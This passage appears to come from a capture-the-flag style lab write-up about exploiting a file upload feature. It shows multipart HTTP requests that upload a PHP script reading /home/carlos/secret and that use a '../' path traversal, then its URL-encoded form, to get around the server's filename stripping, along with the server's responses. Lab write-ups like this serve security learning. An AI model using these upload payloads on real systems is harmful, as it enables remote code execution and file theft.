
The server is simply returning the contents of the php file instead of executing it.

```http
-----------------------------69546747533144935391453654045
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
Content-Type: text/php

<?php echo file_get_contents('/home/carlos/secret'); ?>
-----------------------------69546747533144935391453654045
Content-Disposition: form-data; name="user"

wiener
-----------------------------69546747533144935391453654045
Content-Disposition: form-data; name="csrf"

w3B4fp2TcX27MLeZfxQ8lxlpyYmqKqDD
-----------------------------69546747533144935391453654045--

Response:

HTTP/1.1 200 OK
Date: Tue, 13 Aug 2024 06:23:03 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: close
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 132

The file avatars/exploit.php has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```


This means the server is stripping away the directory traversal payload from the filename. We can try and url encode it.

```http
-----------------------------69546747533144935391453654045
Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
Content-Type: text/php

<?php echo file_get_contents('/home/carlos/secret'); ?>
-----------------------------69546747533144935391453654045
Content-Disposition: form-data; name="user"

wiener
-----------------------------69546747533144935391453654045
Content-Disposition: form-data; name="csrf"

w3B4fp2TcX27MLeZfxQ8lxlpyYmqKqDD
-----------------------------69546747533144935391453654045--


# response from server: 

The file avatars/../exploit.php has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```
